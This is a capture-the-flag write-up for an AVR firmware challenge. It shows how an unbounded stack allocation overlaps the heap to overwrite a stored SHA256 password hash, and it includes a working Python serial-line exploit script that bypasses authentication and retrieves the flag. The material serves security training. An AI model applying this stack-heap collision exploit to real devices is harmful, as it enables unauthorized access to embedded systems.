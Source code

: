 ## Unauthorized (100)

### Description

Let's do something simple. This media unit has a Wifi access point and looks like remote access is possible. But only if you know the right password.

### Write-up

This task is a little bit more interesting, it contains some control-flow integrity parts and anti fault injection counter mesures, which can be nice obstacles in real firmware.

![unauth](images/unauth1.png)

Here we can see function which takes number as parametr and returns pointer, with high probability that is *malloc*, and if we will look to [avr-libc](https://github.com/vancegroup-mirrors/avr-libc/blob/master/avr-libc/libc/stdlib/malloc.c) repository we can confirm this.

And among code in *malloc.c* we see one interesting comment:

	* Thus, all possible stack frames of interrupt routines that could
 	* interrupt the current function, plus all further nested function
 	* calls must not require more stack space, or they'll risk to collide
 	* with the data segment.

Really?

The point is that during input processing we can specify input size which is dynamiclly allocated on stack without any limitation, using this unsafe feature we can easily overlap stack and heap segments and overwrite stored data.

Next we should look how authentication is done, among functions code we can see quite known constants (**0x6A09E667**) which means that SHA256 is used for password verification. All user hashes is allocated on heap and have constant position after startup, also we need to know is initial stack value , for this porpuse we can count stack frames from initial startup and pridict heap allocatr, but we no need to suffer, becase we can find all this using debugger, we used Atmel AVR Studio which is quite good for such tasks.

```python
target_address=0x3023-0x22  #location of pass hash (backdoor user)
sp_base=0x3ebf 				#taked from debugger
addr_diff=sp_base-target_address

with serial.Serial('/dev/ttyUSB0',115200,timeout=1) as tty:
    tty.write("\n")
    read_until(tty,"Expected format:")
    
    n1=len(pass_hash)
    n2=addr_diff-len(str(n1))-len(":")-len(str(addr_diff))-len(":")-n1
    
    print "send payload "+str(n1)+":"+str(n2)+":"+repr(pass_hash)
    tty.write(str(n1)+":"+str(n2)+":"+pass_hash+"1\n")
    read_until(tty,"Unknown user")
    
    print "send pass: "+str(len(usrname))+":"+str(len(pasw))+":"+usrname+pasw
    tty.write(str(len(usrname))+":"+str(len(pasw))+":"+usrname+pasw+"\n")
    read_until(tty,"Your flag is")
    print tty.readline()
```

So, we just send two command, first one overwrite stored hash and second one we succeffuly pass crafted authentication, we heve another one flag and can move on to next challange, full script can be found among files in github repository.
